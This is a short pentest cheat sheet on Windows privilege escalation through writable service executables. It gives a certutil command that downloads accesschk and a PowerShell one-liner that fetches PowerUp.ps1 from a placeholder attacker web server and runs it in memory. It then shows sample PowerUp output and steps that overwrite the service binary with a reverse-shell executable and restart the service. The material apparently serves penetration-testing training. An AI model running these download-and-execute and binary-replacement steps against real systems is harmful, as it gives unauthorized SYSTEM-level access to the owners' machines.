 # Service Exploits - Insecure Service Executables

Windows Sysinternals can be found:
- https://docs.microsoft.com/en-us/sysinternals/downloads/
- https://live.sysinternals.com/ (better to download direclty)

		certutil -urlcache -f https://live.sysinternals.com/accesschk.exe accesschk.exe

Download PowerUp.ps1 and run in memory

 `powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks`

Look for `Check: Modifiable Service Files` like in the service below

```
ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
Name                            : filepermsvc
Check                           : Modifiable Service Files
```

The service binary is writable.

Replace it with a reverse shell

	copy reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

Restart the service

	net start <Service-Name>
	